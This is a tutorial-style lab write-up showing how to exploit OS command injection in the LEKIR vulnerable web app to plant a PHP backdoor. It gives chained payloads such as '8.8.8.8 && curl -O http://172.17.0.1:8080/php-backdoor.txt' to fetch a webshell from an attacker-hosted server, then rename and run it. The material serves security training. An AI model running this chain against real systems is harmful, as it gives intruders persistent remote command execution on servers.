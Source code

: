 # Backdoor Exploiting

In this writeup, we will be demonstrating the use of implementing a backdoor inside the LEKIR vulnerable web app

After running the LEKIR Docker container and accessing it through the browser, navigate to the OS command injection category at Low level

![Figure1](./imgs/img1.png)

![Figure2](./imgs/img2.png)

## 1st Step: Identfying Vulnerabilities

Input any valid IP. Let's try Google's

![Figure3](./imgs/img3.png)

Seems to work like a normal ping service should

![Figure4](./imgs/img4.png)

Now we get to the fun part, Payloads. Just try out any one in the list

![Figure5](./imgs/img5.png)

As you can see, we succeded in listing the contents in the current directory using the && operator

![Figure6](./imgs/img6.png)

## 2nd Step: Exploiting Vulnerabilities

Since this web app uses PHP as its backend, we can just exploit it by using a PHP backdoor script. By default the backdoor script is already in our Kali Linux machine, we just need to get it on the vulnerable web app. You can find the script by using the `locate` command in the terminal

![Figure7](./imgs/img7.png)

navigate to the appropriate directory of the script by using `cd /usr/share/webshells/php`

Now what we need to do is host a simple webserver to serve the script which is inside the current directory

We can launch a simple HTTP server using python by entering this command:

`
python -m http.server 8008
`

To see if the server was launched successfully. Go to the browser and enter 'localhost:8008'. It should show up like this:

![Figure8](./imgs/img8.png)

Now that's done, there are 2 ways we can download / retrieve the backdoor script on the vulnerable web app now that it is on a webserver.

- **wget**

check if wget is installed in the vulnerable system by entering `wget -h`

![Figure9](./imgs/img9.png)

Looks like wget is not installed, let's move on to the next method

- **curl**

like before, let's check if it is installed

![Figure10](./imgs/img10.png)

Now we can begin downloading the backdoor script. Before that, go to the terminal where the python webserver is hosted. Copy the url which is the server's address and port. In my case it will look like this.

`
http://0.0.0.0:8080/
`

Another thing we need to add at the end of the url is the file we want to download. specify the name of the backdoor

`
http://0.0.0.0:8080/php-backdoor.php
`

Another thing we also need to change is the ip of the url, depending on how you deploy the LEKIR Framework, you need to identify the suitable interfaces to use. '0.0.0.0' means that the webserver is listening on all network interfaces. In my case, i will need to use the Docker interface since I deployed it using Docker

You can check the available interfaces using:

`
ip a
`

![Figure11](./imgs/img11.png)


The current payload will look like this

![Figure12](./imgs/img12.png)

Try running the command

![Figure13](./imgs/img13.png)

If the output looked like this, it means that it did not work. Why?

Because as I have said earlier, PHP is a backend language. When we use curl or wget for that matter to request the file, the webserver will execute the PHP script and return the output such as HTML or JSON rather than the raw PHP source code itself.

What we can do to fix this issue is changing the file type of the script. Let's change it to a .txt file using this command:

`
mv php-backdoor.php php-backdoor.txt
`

Oh and also, do it in another tab of the terminal and don't `Ctrl + C`  the python webserver hahah xD

![Figure14](./imgs/img14.png)

Change the payload 

`
8.8.8.8 && curl -O http://172.17.0.1:8080/php-backdoor.txt
`

The `-O` flag is used to specify the output name of the file when it is downloaded, here I am saving it with its original name

![Figure15](./imgs/img15.png)

Let's try and see if it worked

![Figure16](./imgs/img16.png)

It didn't execute the file. Let's verify this by using `ls`

![Figure17](./imgs/img17.png)

Great!! it worked, our backdoor is downloaded. On to the next step.

## 3rd Step: Gaining Access

Now that the backdoor script is inside the vulnerable system, we can execute it. But wait...remember that we changed it from a .php file to a .txt file? .txt files are for reading only

We can simply resolve this issue by just changing it back to a .php file in the input field using the `mv` ('Everyone probably knew this ^_^')

`
8.8.8.8 && mv php-backdoor.txt php-backdoor.php
`

verify it once again

![Figure18](./imgs/img18.png)

everything is set, now we can finally execute the backdoor. Navigate to the URL and enter the filename of the backdoor in the current directory

![Figure19](./imgs/img19.png)

Run it

![Figure20](./imgs/img20.png)

What you are seeing is the web-based control panel of the backdoor, allowing you to interact with the server in various ways including command execution, file upload, directory browsing and database query execution

(In other words, the backdoor worked)




















